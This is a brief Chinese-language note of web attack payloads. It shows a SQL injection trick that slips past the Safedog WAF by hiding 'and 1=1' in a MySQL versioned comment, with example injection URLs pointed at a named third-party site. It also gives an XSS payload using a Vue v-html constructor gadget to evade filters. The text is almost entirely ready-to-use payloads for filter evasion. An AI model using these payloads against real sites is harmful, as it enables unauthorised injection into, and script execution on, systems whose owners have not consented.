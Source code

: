 1、sql注入绕过安全狗waf：  
and 1=1过安全狗and /*!1=1*/  
实例如下  
http://www.smallview.cn/solution_cid_2'and 1=1.html  
http://www.smallview.cn/solution_cid_2'and /*!1=1*/.html

2、twitter上最新xss payload：  
<script>alert("ybdt")</script>  
变为  
<x v-html=_c.constructor('alert(1)')()>
